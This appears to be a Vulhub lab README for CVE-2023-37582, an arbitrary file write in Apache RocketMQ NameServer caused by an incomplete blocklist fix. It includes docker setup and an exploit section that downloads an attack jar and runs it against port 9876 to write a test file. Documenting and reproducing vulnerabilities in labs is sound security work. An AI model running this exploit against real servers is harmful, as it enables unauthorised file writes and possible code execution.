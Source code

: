 # Apache RocketMQ NameServer Arbitrary File Write (CVE-2023-37582)

[中文版本(Chinese version)](README.zh-cn.md)

Apache RocketMQ is a distributed messaging and streaming platform with low latency, high performance and reliability, trillion-level capacity and flexible scalability.

In RocketMQ versions 5.1.1 and below, there exists an arbitrary file write vulnerability in the NameServer component. The vulnerability exists in the configuration update functionality of RocketMQ's NameServer component. By sending an `UPDATE_NAMESRV_CONFIG` command to the NameServer, an attacker can modify the `configStorePath` configuration item and its content, leading to arbitrary file write.

This vulnerability arises from an incomplete fix for [CVE-2023-33246](https://github.com/vulhub/vulhub/tree/master/rocketmq/CVE-2023-33246). In addressing CVE-2023-33246, the official team established a blocklist of configuration items that cannot be modified. However, the patch mistakenly designated the blocklist as `configStorePathName`, when it should have been `configStorePath`, leading to this outcome.

References:

- <https://github.com/apache/rocketmq/pull/6843>
- <https://drun1baby.top/2023/11/21/CVE-2023-37582-Apache-RocketMQ-RCE-%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/>
- <https://github.com/Malayke/CVE-2023-37582_EXPLOIT>

## Vulnerable Environment

Execute the following command to start a RocketMQ NameServer 5.1.0:

```shell
docker compose up -d
```

After the environment is started, the RocketMQ NameServer will listen on port 9876.

## Exploit

Use this simple [exploit project](https://github.com/vulhub/rocketmq-attack) to reproduce the vulnerability and write arbitrary file.

```shell
wget https://github.com/vulhub/rocketmq-attack/releases/download/1.1/rocketmq-attack-1.1-SNAPSHOT.jar
java -jar rocketmq-attack-1.1-SNAPSHOT.jar AttackNamesrv --target your-ip:9876 --path "/tmp/success" --content "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
```

After execution, you can verify that the file has been written successfully:

```shell
cat /tmp/success
```

The content "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" should be present in the file.

![](1.png)
